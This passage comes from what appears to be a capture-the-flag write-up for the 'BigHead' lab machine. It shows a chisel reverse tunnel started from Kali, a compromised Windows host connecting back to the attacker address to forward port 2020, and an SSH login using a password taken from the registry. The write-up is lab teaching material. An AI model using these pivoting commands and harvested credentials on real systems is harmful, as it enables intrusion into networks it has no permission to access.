 Now I’ll run my server locally, allowing for reverse tunnels:

```

root@kali# /opt/chisel/chisel server -p 8888 --reverse
2019/03/29 13:43:05 server: Reverse tunnelling enabled
2019/03/29 13:43:05 server: Fingerprint 1b:df:d4:d0:c7:29:0d:3f:77:ef:7a:62:ec:47:ff:9b
2019/03/29 13:43:05 server: Listening on 0.0.0.0:8888...

```

Now I’ll connect back from BigHead:

```

C:\Windows\System32\spool\drivers\color>c.exe client 10.10.14.14:8888 R:2020:127.0.0.1:2020
c.exe client 10.10.14.14:8888 R:2020:127.0.0.1:2020
2019/03/29 17:34:32 client: Connecting to ws://10.10.14.14:8888
2019/03/29 17:34:42 client: Fingerprint 1b:df:d4:d0:c7:29:0d:3f:77:ef:7a:62:ec:47:ff:9b
2019/03/29 17:34:48 client: Connected (Latency 983.2545ms)

```

The server reports the connection as well:

```

2019/03/29 13:44:09 server: session#1: Client version (1.3.1) differs from server version (0.0.0-src)
2019/03/29 13:44:09 server: proxy#1:R:0.0.0.0:2020=>127.0.0.1:2020: Listening

```

Now I can talk to local port 2020 and it will reach 2020 on bighead.

### SSH

With either tunnel set up, I can now ssh in, using the string from the registry, H73BpUY2Uq9U-Yugyt5FYUbY0-U87t87, as a password:

```

root@kali# ssh -p 2020 nginx@localhost
nginx@localhost's password:
bvshell:/$

```

## BvShell Escape

### Enumeration

On sshing in, I’m dropped into a weird shell. Based on the files, my best guess is that I’m in `c:\xampp`, a directory I was unable to get into before as nelson. I am unable to get back to the root of C:.
